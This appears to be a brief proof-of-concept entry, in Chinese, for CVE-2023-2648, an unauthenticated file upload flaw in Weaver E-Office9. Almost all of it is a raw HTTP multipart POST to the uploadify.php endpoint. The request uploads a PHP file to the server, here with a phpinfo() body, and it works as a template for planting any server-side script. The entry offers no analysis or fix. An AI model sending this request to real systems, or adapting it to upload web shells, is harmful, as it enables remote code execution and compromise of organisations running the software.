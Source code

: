 # 某微E-Office9文件上传漏洞 CVE-2023-2648

## 某微E-Office9文件上传漏洞 CVE-2023-2648

```
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 192.168.233.10:8082
User-Agent: test
Connection: close
Content-Length: 493
Accept-Encoding: gzip
Content-Type: multipart/form-data

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="Filedata"; filename="666.php"
Content-Type: application/octet-stream

<?php phpinfo();?>

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
```

